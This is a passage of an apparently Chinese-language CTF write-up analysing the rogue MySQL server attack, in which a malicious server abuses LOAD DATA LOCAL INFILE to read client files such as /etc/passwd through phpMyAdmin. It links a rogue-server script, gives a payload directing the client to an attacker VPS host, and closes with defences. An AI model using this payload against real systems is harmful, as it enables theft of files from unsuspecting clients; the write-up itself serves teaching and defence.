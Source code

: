 [![](https://s2.ax1x.com/2019/03/11/ACU0Ds.md.png)](https://imgchr.com/i/ACU0Ds)

接着客户端就回复给服务端本地`/etc/passwd`中的内容。

[![](https://s2.ax1x.com/2019/03/11/ACUoUx.md.png)](https://imgchr.com/i/ACUoUx)

正常的请求逻辑如下

```
sequenceDiagram
客户端-&gt;&gt;服务端: Load data infile '/etc/passwd'... 
服务端-&gt;&gt;客户端: Response TABULAR
客户端-&gt;&gt;服务端: Content in /etc/passwd
```

这是正常的情况，即客户端发送一个`load data infile` 请求，服务器回复一个`Response TABULAR`，不会出现什么问题。<br>
但是Mysql允许服务端在任何时候发送`Response TABULAR`数据包， 此时就跳过了第一步，实现了任意文件读取的目的。

```
sequenceDiagram
客户端-&gt;&gt;服务端: 
服务端-&gt;&gt;客户端: Response TABULAR
客户端-&gt;&gt;服务端: Content in /etc/passwd
```

恶意mysql服务器只需要完成mysql连接的握手包，然后发送出这个`Response TABULAR`包，即可收到客户端传来的文件。

在刚才的phpmyadmin实例里抓包，可以看到该恶意服务端发包和客户端发送数据的包内容。

[![](https://s2.ax1x.com/2019/03/11/ACsJ10.md.png)](https://imgchr.com/i/ACsJ10)

这里给出github上的[恶意mysql服务器地址](https://github.com/Gifts/Rogue-MySql-Server/blob/master/rogue_mysql_server.py)。

这就是整个漏洞的分析过程，最后回到开始那道ctf题，答案也是显而易见了。在vps上开启一个恶意mysql服务器并监听。然后在浏览器输入payload

```
host=VPS_ADDR:EVIL-MYSQL_PORT&amp;user=root&amp;passwd=root&amp;database=ddd
```

即可在服务器的mysql.log里看到flag

[![](https://s2.ax1x.com/2019/03/11/ACsT3t.md.png)](https://imgchr.com/i/ACsT3t)



## 漏洞防御
- 关闭`local_infile`参数，禁止导入本地文件
- 开启`--ssl-mode=VERIFY_IDENTITY`参数，防止连接不安全的mysql服务器。


## 参考文档
- [https://lightless.me/archives/read-mysql-client-file.html#_label5](https://lightless.me/archives/read-mysql-client-file.html#_label5)
- [https://dev.mysql.com/doc/refman/8.0/en/load-data-local.html](https://dev.mysql.com/doc/refman/8.0/en/load-data-local.html)
- [https://www.vulnspy.com/cn-phpmyadmin-load-data-local-file-read-local-file/](https://www.vulnspy.com/cn-phpmyadmin-load-data-local-file-read-local-file/)
